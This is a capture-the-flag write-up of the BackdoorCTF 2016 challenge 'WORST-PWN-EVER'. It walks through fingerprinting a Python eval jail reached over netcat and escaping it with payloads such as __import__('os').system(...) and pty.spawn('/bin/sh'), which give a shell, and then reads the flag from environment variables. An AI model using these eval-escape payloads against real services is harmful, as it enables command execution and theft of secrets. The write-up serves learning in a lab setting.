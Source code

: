 Author: michals (Michał Soczewka)

WORST-PWN-EVER
==============

CTF: BackdoorCTF 2016  
Link: https://backdoor.sdslabs.co/challenges/WORST-PWN-EVER  
Author: Ashish Chaudhary  
Points: 100  
Category: pwn, Python


Description
-----------

>   tocttou is an enviornmentalist. But some say he has a vicious motive
>   and he uses nature to hide his dark side. We found a weird shell on
>   his amazon (pun inteded) web services. Can you tell us what is he
>   upto?
>
>   Tip: he might shut down the machine if he notices you - and he will
>   (maybe in 45 seconds).
>
>   Access: nc hack.bckdr.in 9008


TL;DR
-----

We have been given an Python eval jail over a TCP socket.
The solution is to retreive an environment variable using one
of the classic builtin hacks, for example:
```python
__import__('os').system('env|grep -iE ".*f.*l.*a.*g"')
```


Solution
--------

After establishing a connection to the given server a prompt is returned.
Let's try some random fuzzing.

First let's see what happens when we press `CTRL+D`
right away:

```
> EOFError: EOF when reading a line
--> WHAT ARE YOU DOING HERE? >-[
```
Let's check if it is a system shell:
```
> echo x
SyntaxError: unexpected EOF while parsing (<string>, line 1)
--> WHAT ARE YOU DOING HERE? >-[
```
No, it's definitely not a system shell. It looks like a Python interpreter.
Let's check this theory then:
```
> 1+1
```
No response, no error - it looks promising.
Let's check then if we can see some Python errors:
```
> 1+'x'*[]
TypeError: can't multiply sequence by non-int of type 'list'
```
Bingo! If it really is an old `eval` jail, then
we could escape using a classic builtin hacks.

Let's check that:
```
> str(__import__('os').system('echo x'))
x
```
 Got it! Let's get a shell and start looking around:
```
> __import__('pty').spawn('/bin/sh')
sh-4.3#
```

After looking through available files for a few minutes
and finding nothing useful, we noticed the task description
contains a clue - the word *environmentalist*
suggests checking environment variables.

```
sh-4.3# env
HOSTNAME=43523caef67d
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_F_L_A_G_='xxxxxxxxxxxxxxx CENSORED xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'
PWD=/scripts
SHLVL=3
HOME=/root
_=/usr/bin/env
```
